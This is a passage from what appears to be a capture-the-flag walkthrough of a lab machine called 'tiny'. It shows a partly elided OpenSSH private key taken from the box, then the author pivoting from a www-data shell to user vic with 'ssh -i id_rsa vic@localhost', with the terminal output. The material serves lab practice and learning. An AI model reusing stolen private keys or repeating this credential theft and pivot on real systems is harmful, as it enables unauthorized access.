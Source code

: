 ```bash
xNp0kFS3OO8JzcjPe0yU9JWnOIE5JuZahjaw4W5qNXuTngyo3s5Jlxk6jaOEQKdG5emR0O
gON55uWAa/27XT2atobkon1XYGl7t46C7jG82p4ochKtYGkq39AWhQyo39IL8ojX03eZXP
lvv0p8rLULnXbuYUfYvB++VQTjYaTnkoVN5hVaQmewRK5bU7RFO9488W2SoP6S8Pz2RSb8
NEjkDd6E7lcF4qMRdXQ/HzOLF6rvQKFwEJ60N8GVu7XXxRxhwgud58bUJxyaAfyldwFymp
w2fpVwKD0zcD6QBj5U6OqEfZjbcWDwAAAAMBAAEAAAGASO7FaifVIV3uwVjhgLlOriRScP
Bdq9p1q/ACynucA9ZM0p1pyhhiH43cQi6BSzuPrRUT2Pcp4QxBUV0Hg/f3oqU3T/gnj0pb
6JrH51OcsKDULXSUWh+XTHlyMOtPXH+SxkkHwXq3zEGgYF2IoskmS78Hp6HMnToxEv5bUw
XLeFvXSsNSJaXGzBVGJEx458NuUA9hURy0KP6drksQZYtpNOdDOS2DU8GHe13JtQQScvSh
GplDU5cAgy4yGd0COUuVeha7kxu8X3H1DilAjkqA/WTXsrl4hFSBmFqAHus6lAIVwqXta8
a5AczCy2sj96Am8i82OEqWm/s9qDGsXShNN9OXdzV1AjGPTU6tfD44mMKjFTg/T8AAgrnF
Ny8G8cEZ25/+p4VOB1D5Md/cHNXV4IJbQQjMhdWPKQAjbgmxV5O8b0Juvm+DjL6eki7btb
pNmxNY/bC1NU99aizPt4wMR4AavsPnSdSEyHyGPiMM6KpNt0zQKndRYqqxlL8RlWJBAAAA
wDziFYIuXmtoCnsTD3lpXEOuIUmuVb9rvdeXlM/4W2x5AE0DulPINGaGZRai8IDNfDcdeW
1Y2CIFtrAZnsxmQWN/8XSwd9WJkRgXkapjJlRqR3HVQGwpkm85GRhPchbdMh7W3Nq/ZQPP
b669wTQI2gsxQcgW9OOj+OzZu36c/zj2S7NyVJKE58fg7isCOoKAdAFmi3HPkdGM/w/FJV
fC1JSzvu34RyOY1lZy0v4TKu4F+2G1xp7Z+cOQMEUM5hNx+gAAAMEA7D3vajOb/mwu5+oE
zjggNbzN6waU/DmbmoaMqBM4qxyMNU2oNCTrtvrrkG0BEHoslnSJo9/Cr8MP6joOMk6eTg
z64vBmTlvY5defCN/8TX1lxZyk1qOM5DliTK56ydRepXMFRgTJUf1xoorZ2vKZNHmPGLvr
SvBMKcghKOgGyt/ydnxLCttwl4Gqxb6SA57tej5eezsvw/nH+k5rkxOUqyw2mDALzk2IWz
1PxwaZ/Zq0w3A9jRSKVyfPPOwnjuD7AAAAwQC+tHo9BC/6YgZBihmL0eAjV2Hr5+vh+OUx
azB+TpW2NZWLyiCrmqCDNllKRaAOWdDEmtzj4LdGCsV4Q+Ndt4TwvDT+IERHg7zo586N/r
IKNT4z9FD/jiEYHdmZ4LgCIlhseV9ryELv9y9p6qZJcNXp65L7i4gG5n8uiuphNb7r/my/
ewAiJsS+Vc8DQ1H5ECwcBt9JrLczvMiUMJ6inh8Ppvn4MIkYSxA6xLAAtpkEFq3IAbDPnE
.....................................
-----END OPENSSH PRIVATE KEY-----
```
{: .nolineno}
{: .nolineno}

Now I terminated the socat as I got the private key and I will give its permissions as 600 and then use it for user vic →

```bash
www-data@tiny:/tmp$ ssh -i id_rsa vic@localhost
ssh -i id_rsa vic@localhost
The authenticity of host 'localhost (::1)' cant be established.
ED25519 key fingerprint is SHA256:TCA/ssXFaEc0sOJl0lvYyqTVTrCpkF0wQfyj5mJsALc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Linux tiny.hmv 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.37-1 (2023-07-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
[oh-my-zsh] Would you like to update? [Y/n] n
n^J
[oh-my-zsh] You can update manually by running `omz update`
╭─vic@tiny ~                                                                   
╰─$ 
╭─vic@tiny ~                                                                   
╰─$ whoamiwhoami
whoami
vic
╭─vic@tiny ~                                                                   
╰─$ id    id
id
uid=1000(vic) gid=1000(vic) groups=1000(vic),100(users)
╭─vic@tiny ~                                                                   
```